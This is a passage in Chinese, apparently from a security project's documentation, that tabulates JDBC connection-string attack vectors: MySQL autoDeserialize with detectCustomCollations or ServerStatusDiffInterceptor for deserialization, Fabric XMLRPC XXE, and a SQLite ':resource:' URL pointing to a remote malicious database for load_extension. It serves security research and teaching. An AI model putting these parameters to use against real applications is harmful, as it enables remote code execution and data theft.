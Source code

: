 detectCustomCollations

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `com.mysql.jdbc.Driver`                                      |
| 攻击向量 | `detectCustomCollations`                                     |
| 连接参数 | `autoDeserialize=true&detectCustomCollations=true`           |
| 备注     | `detectCustomCollations` 参数建立连接后执行 `SHOW COLLATION` 并反序列化结果 |



statementInterceptors

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `com.mysql.jdbc.Driver`                                      |
| 攻击向量 | `statementInterceptors`                                      |
| 连接参数 | `statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor` |
| 备注     | `ServerStatusDiffInterceptor` 参数建立连接后执行 `SHOW SESSION STATUS` 并反序列化结果 |



fabric

| 参数     | 值                                                      |
| -------- | ------------------------------------------------------- |
| 驱动名称 | `com.mysql.fabric.jdbc.FabricMySQLDriver`               |
| 攻击向量 | `fabric://`                                             |
| 连接参数 | `jdbc:mysql:fabric://127.0.0.1:5000`                    |
| 备注     | `FabricMySQLDriver` 建立 XMLRPC 连接并解析造成 XXE 漏洞 |



### sqlite

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `org.sqlite.JDBC`                                            |
| 攻击向量 | `:resource:`                                                 |
| 连接参数 | `:resource:http://127.0.0.1:8888/poc.db`                     |
| 备注     | `:resource:` 参数连接互联网的数据库，可以“替换”原有 SELECT 语句并使用 `load_extension` 加载恶意依赖文件/拒绝服务 |



以上详情请查看项目代码及学习文章。


